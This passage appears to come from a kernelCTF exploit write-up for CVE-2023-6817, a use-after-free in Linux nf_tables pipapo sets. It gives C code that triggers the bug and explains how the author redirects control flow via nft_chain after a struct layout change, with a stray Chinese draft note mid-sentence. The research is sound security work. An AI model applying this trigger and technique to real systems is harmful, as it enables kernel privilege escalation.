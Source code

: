 By the way, we need to send the command of step 3 and step 4 together because we need to avoid set element B being actually released before our step 4.
This code triggering the vulenrability:
```c
    char *tmp_set = "pipapo set for primitive";
    new_set_pipapo(socket,table, tmp_set, 0x40, NFT_OBJECT_CT_EXPECT);
    char *key = malloc(0x40);
    char *key_end = malloc(0x40);
    memset(key,0,0x40);
    memset(key_end,0,0x40);
    new_setelem(socket, table, tmp_set, NULL, 0, target_obj, key, 0x40, key_end, 0x40, 0);

    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*2);
    msg_list[0] = del_setelem_msg(table, tmp_set, key, 0x40, key_end, 0x40);
    msg_list[1] = del_set_msg(table, tmp_set);
    send_msg_list(socket, msg_list, 2);
```

## Exploit it
CVE-2023-6817 and CVE-2023-4569 are basically similar. They all lack effective checks on set elements, resulting in multiple calls to the `nft_setelem_data_deactivate` function on a set element. So we can use a method similar to CVE-2023-4569 to exploit CVE-2023-6817. If you want to learn how I exploited CVE-2023-4569, please read [here](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md). This article will focus on the differences between the two vulnerability exploits.

Exploiting CVE-2023-6817 becomes different from exploiting CVE-2023-4569 because of this [commit](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/include/net/netfilter/nf_tables.h?h=linux-6.1.y&id=f3f0f95a023370561a9b4d2028308f8452f1e7d1):

```c
struct nft_object {
 	struct list_head		list;
 	struct rhlist_head		rhlhead;
 	struct nft_object_hash_key	key;
-	u32				genmask:2,
-					use:30;
+	u32				genmask:2;
+	u32				use;
 	u64				handle;
 	u16				udlen;
 	u8				*udata;
```
This commit changes the offset of `use` in `nft_object` from 0x30 to 0x34. This means that we cannot continue to use the method of exploit CVE-2023-4569 to control RIP (because memory alignment will prevent the nft_set_elem_expr->size of the setelement used to hijack RIP from falling at the offset 0x34). So I choose to use another target used in function ==而且在6.1.63中，对obj->use的操作进行了检查是否会减为负数的报错处理机制==
`nft_setelem_data_deactivate`: `nft_chain`.

In function `nft_setelem_data_deactivate`, it will call `nft_verdict_uninit` finally if there's `NFT_SET_EXT_DATA` in setelement `nft_set_ext` and the type of the set->dtype is `NFT_DATA_VERDICT`:
